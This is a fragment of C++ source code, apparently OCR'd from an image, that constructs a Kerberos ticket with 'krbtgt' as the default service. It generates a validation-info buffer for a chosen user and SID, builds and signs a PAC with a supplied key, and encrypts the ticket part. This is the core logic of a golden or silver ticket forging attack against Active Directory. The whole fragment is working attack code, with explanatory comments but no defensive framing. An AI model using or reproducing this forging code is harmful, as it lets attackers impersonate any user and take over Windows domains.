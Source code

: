 ```c++
        RtlInitUnicodeString(&ticket.ServiceName->Names[0], lpServiceName ? lpServiceName : L"krbtgt");
        RtlInitUnicodeString(&ticket.ServiceName->Names[1], lpTargetName ? lpTargetName : lpDomainName);
    }

    RtlInitUnicodeString((PUNICODE_STRING) & ticket.DomainName, lpDomainName);
    // The crealm，realm of the temporary storage ticket.
    ticket.TargetDomainName = ticket.AltTargetDomainName = ticket.DomainName;
    // The flags of the temporary storage ticket.
    ticket.TicketFlags = (lpServiceName ? 0 : KERB_TICKET_FLAGS_initial) | KERB_TICKET_FLAGS_pre_authent | KERB_TICKET_FLAGS_renewable | KERB_TICKET_FLAGS_forwardable;
    // The tkt-vno of the temporary storage ticket.
    ticket.TicketKvno = 5;
    // The key (session key) of the temporary storage ticket.
    ticket.TicketEncType = ticket.KeyType = dwKeyType;
    ticket.Key.Length = dwKeySize;
    if (ticket.Key.Value = (PUCHAR)LocalAlloc(LPTR, ticket.Key.Length))
        // Generate a random session key.
        CDGenerateRandomBits(ticket.Key.Value, ticket.Key.Length);

    // Select an appropriate signature type according to dwKeyType for 
    // subsequent signing of the pac structure.
    switch (dwKeyType)
    {
    case KERB_ETYPE_AES128_CTS_HMAC_SHA1_96:
        SignatureType = KERB_CHECKSUM_HMAC_SHA1_96_AES128;
        break;
    case KERB_ETYPE_AES256_CTS_HMAC_SHA1_96:
        SignatureType = KERB_CHECKSUM_HMAC_SHA1_96_AES256;
        break;
    case KERB_ETYPE_DES_CBC_MD5:
        SignatureType = KERB_CHECKSUM_DES_MAC;
        break;
    case KERB_ETYPE_RC4_HMAC_NT:
    default:
        SignatureType = KERB_CHECKSUM_HMAC_MD5;
    }

    // Enter the GenerateValidationInfo function to generate a KERB_VALIDATION_INFO 
    // type buffer for PAC.
    if (pValidationInfo = GenerateValidationInfo(&pLifeTimeData->TicketStart, lpUserName, lpDomainName, lpLogonDomainName, pSid))
    {
        // Build the PAC structure through the generated KERB_VALIDATION_INFO buffer.
        if (ValidationInfoToPAC(pValidationInfo, SignatureType, &pacType, &pacTypeSize))
        {
            wprintf(L"    * PAC generated.\n");
            // Sign the constructed PAC structure
            if (GeneratePacSignatureData(pacType, pacTypeSize, SignatureType, Key, dwKeySize))
            {
                wprintf(L"    * PAC signed.\n");
            }
        }       
    }

    // Generate the EncTicketPart part of the ticket.
    if (BerAppEncTicketPart = GenerateAppEncTicketPart(&ticket, pacType, pacTypeSize))
    {
        wprintf(L"    * EncTicketPart generated.\n");
        // Encrypt the generated EncTicketPart, which uses the long-term key of 
        // the kdc/application server.
```